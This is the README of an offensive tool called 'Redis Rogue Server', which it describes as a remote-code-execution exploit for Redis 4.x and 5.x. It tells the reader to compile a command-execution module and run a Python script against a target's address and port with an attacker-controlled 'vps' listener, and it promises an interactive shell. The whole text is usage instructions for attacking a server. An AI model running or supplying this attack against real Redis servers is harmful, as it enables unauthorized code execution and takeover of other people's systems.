 # Redis Rogue Server

A exploit for Redis 4.x and 5.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

## Usage:

Compile .so from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

Copy the .so file to same folder with `redis-rogue-server.py`.

Run the rogue server:

```
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

The default target port is 6379 and the default vps port is 21000.

And you will get an interactive shell!
